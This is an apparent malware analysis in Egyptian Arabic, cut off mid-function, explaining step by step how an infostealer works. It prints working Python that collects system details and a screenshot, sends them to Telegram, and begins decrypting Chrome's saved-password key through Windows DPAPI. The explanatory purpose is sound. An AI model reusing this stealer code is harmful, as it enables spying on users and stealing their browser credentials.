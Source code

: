 
### الحاجات الخبيثة اللي بيعملها بالتفصيل

#### 1. **جمع معلومات أول ما يشتغل**
```python
def send_startup_info():
    username = getpass.getuser()
    os_info = platform.platform()
    cpu = platform.processor()
    device_name = platform.node()
    message = f"🖥️ جلسة جديدة بدأت\n👤 المستخدم: {username}\n💻 الجهاز: {device_name}\n🧠 المعالج: {cpu}\n🧾 نظام التشغيل: {os_info}"
    send_to_telegram_split(message)
    screenshot_path = os.path.join(tempfile.gettempdir(), "screenshot.jpg")
    pyautogui.screenshot().save(screenshot_path)
    send_photo_to_telegram(screenshot_path)
    os.remove(screenshot_path)
    extract_browser_credentials()
```

- **إيه اللي بيحصل؟**:
  - أول ما تفتح البرنامج، بيلمّع معلومات عنك وعن جهازك:
    - **إسم المستخدم**: بيستخدم `getpass.getuser()` عشان يعرف إسمك في الويندوز (زي "Ahmed" لو ده إسم حسابك).
    - **نظام التشغيل**: بيستخدم `platform.platform()` عشان يعرف إنت على ويندوز 10 ولا 11، وإصدار كام.
    - **المعالج**: بيستخدم `platform.processor()` عشان يعرف نوع المعالج (زي Intel i7 أو AMD Ryzen).
    - **إسم الجهاز**: بيستخدم `platform.node()` عشان يعرف إسم الكمبيوتر (زي "DESKTOP-12345").
  - بيحط المعلومات دي في رسالة مرتبة، زي:
    ```
    🖥️ جلسة جديدة بدأت
    👤 المستخدم: Ahmed
    💻 الجهاز: DESKTOP-12345
    🧠 المعالج: Intel Core i7
    🧾 نظام التشغيل: Windows-10-22H2
    ```
  - بيبعت الرسالة دي لتيليجرام باستخدام `send_to_telegram_split`.
  - بعد كده، بياخد **سكرين شوت** باستخدام `pyautogui.screenshot()`:
    - بيحفظ الصورة في مكان مؤقت (زي `C:\Users\Ahmed\AppData\Local\Temp\screenshot.jpg`).
    - بيبعت الصورة لتيليجرام.
    - بيمسح الصورة عشان ما تلاقيش أثر.
  - أخيرًا، بيروح ينفّذ دالة `extract_browser_credentials()` عشان يسرق باسوردات المتصفح (هنشرحها بعدين).
- **ليه خطير؟**:
  - اللي بيستلم الرسالة دي بيعرف إنت مين، جهازك إيه، وإيه اللي مفتوح على الشاشة. لو كنت فاتح إيميلك أو حاجة مهمة، هيشوفها.
  - ده زي ما تكون بدّيت حد صورة كاملة عن جهازك من أول دقيقة.

---

#### 2. **سرقة باسوردات المتصفح**
```python
def get_encryption_key():
    local_state_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local", "Google", "Chrome", "User Data", "Local State")
    if not os.path.exists(local_state_path):
        send_to_telegram_split("⚠️ ملف 'Local State' غير موجود. تأكد من تثبيت Chrome.")
        return None
    try:
        with open(local_state_path, "r", encoding="utf-8") as f:
            local_state = json.load(f)
        key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
        key = key[5:]  # Remove 'DPAPI'
        decrypted_key = win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]
        return decrypted_key
    except Exception as e:
```